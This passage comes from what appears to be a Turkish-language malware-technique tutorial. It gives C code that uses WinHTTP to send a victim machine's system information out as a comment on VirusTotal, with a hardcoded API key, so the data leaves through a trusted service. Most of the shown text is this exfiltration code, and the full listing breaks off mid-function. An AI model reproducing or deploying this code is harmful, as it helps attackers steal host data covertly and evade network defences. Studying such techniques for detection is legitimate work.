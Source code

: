 ```cpp
    fprintf(stderr, "WinHttpReceiveResponse. Error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, 
  WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, 
  WINHTTP_NO_HEADER_INDEX)) {
    if (code == 200) {
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
    FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

Gördüğünüz gibi, bu sadece bir POST isteğidir, benim durumumda dosya kimliği (file ID) = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b`.     

Tam kaynak kodu şu şekilde görünüyor:    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
```